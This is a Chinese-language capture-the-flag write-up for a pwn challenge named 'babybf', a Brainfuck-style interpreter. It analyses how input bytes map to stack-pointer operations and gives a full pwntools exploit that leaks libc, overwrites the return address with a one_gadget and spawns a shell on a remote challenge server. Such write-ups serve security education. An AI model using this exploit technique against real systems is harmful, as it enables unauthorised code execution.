









# babybf  
### 题目分析
保护全开，输入数字开辟堆，往堆里输内容，第一眼让人觉得是堆题，但其实是栈。  
  
输入的内容会根据数组0x2020进行处理，以dw打开这段地方，发现是大量数字。  
  
输入的每一个字节都会根据这个数组替换成对应的0-9的数字。  
并且依次对应这些数字按序完成对应函数的操作。  
其中比较重要的函数有以下几个：  
  
  
  
  
  
  
其余几个函数较为复杂且我最后也没用到  
进入这些函数后栈里长这样。  
  
其中红框即为rbp-0xa8，也就是说可以通过控制这个字段进行各种操作。  

    对应值  输入数  操作
    0       \x3c    
    1       \x3e    ++*
    2       \x2b    ++**
    3       \x2d    --**
    4       \x2e    putchar
    5       \x2c    getchar
    6       \x5b    
    7       \x5d    
    8       \x00    free
    9       \x01    
上述对应不唯一。  
发现对该字段的操作只能使其对应的值越来越大，泄露libc后无法返回，因此考虑先更改rbp下面的返回地址，并获得libc，返回后第二次进去该函数时就能把rbp后改为one_gadget了。  
### 完整exp

```
from pwn import *
"""
    0   \x3c    
    1   \x3e    ++*
    2   \x2b    ++**
    3   \x2d    --**
    4   \x2e    putchar
    5   \x2c    getchar
    6   \x5b    
    7   \x5d    
    8   \x00    free
    9   \x01    
"""
# p=process('./chall')
p=remote("47.108.29.107",10116)
pause()
elf = context.binary = ELF("./chall")
libc = elf.libc
context.log_level = 'debug'
container=b"\x3c\x3e\x2b\x2d\x2e\x2c\x5b\x5d\x00\x01"
one_gadget=0x4f302
def play(size,content):
    p.sendlineafter(b'len> ',str(size).encode())
    p.sendlineafter(b'code> ',content)
def getpayload(ops):
    payload=b""
    for i in ops:
        payload+=p8(container[ord(i)-ord('0')])
    return payload
# gdb.attach(p,'b *$rebase(0x16F4)')
# gdb.attach(p,'b *$rebase(0x195c)')
# gdb.attach(p,'b getchar')
play(0x500,getpayload("11111111"+"11111111"+"11111111"+"11111111"+"11111111"+"11111111"+"11111111"+"59"+"11111111"+"11111111"+"11111111"+"11111111"+"41414141414"+"111"+"3"+"7"+"5"))
# pause()
context.log_level = 'debug'
pause() 

p.send(b'\xab')
pause()
__libc_start_main=u64(p.recv(6).ljust(8,b"\x00"))-231
print(hex(__libc_start_main))
libc_base=__libc_start_main-libc.sym.__libc_start_main
print(hex(libc_base))
print(hex(libc_base+one_gadget))
p.sendline(b'')
pause()
# gdb.attach(p,'b *$rebase(0x195c)')
play(0x500,getpayload("11111111"+"11111111"+"11111111"+"11111111"+"11111111"+"11111111"+"11111111"+"5151515151519"))
p.sendline(p64(libc_base+one_gadget))

p.interactive()
```